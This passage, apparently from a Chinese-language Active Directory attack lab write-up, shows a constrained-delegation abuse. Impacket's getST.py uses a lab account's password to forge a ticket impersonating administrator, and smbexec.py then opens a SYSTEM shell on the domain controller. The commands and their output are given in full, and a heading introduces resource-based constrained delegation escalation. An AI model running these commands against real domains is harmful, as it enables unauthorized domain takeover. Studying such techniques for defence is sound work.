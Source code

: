 先绑定hosts

```plain
192.168.30.2 dc1.sec.com
```

以administrator申请一张访问cifs/dc1.sec.com的票据

```plain
(py38) C:\root> getST.py -dc-ip 192.168.30.2 sec.com/test2:"Az123456@" -spn cifs/dc1.sec.com -impersonate administrator
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc1.sec.com@SEC.COM.ccache
```

尝试smbexec

```plain
(py38) C:\root> export KRB5CCNAME=administrator@cifs_dc1.sec.com@SEC.COM.ccache

(py38) C:\root> smbexec.py -no-pass -k dc1.sec.com -dc-ip 192.168.30.2
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

## 2、原理

# 五、基于资源的约束性委派攻击
由于hack用户是普通域账号权限，无法执行mimikatz，所以可以使用RBCD提权获取Win2008-1的system权限

![](../images/4caf38fdd7de31bd1ff9da49d1f31bbf.png)
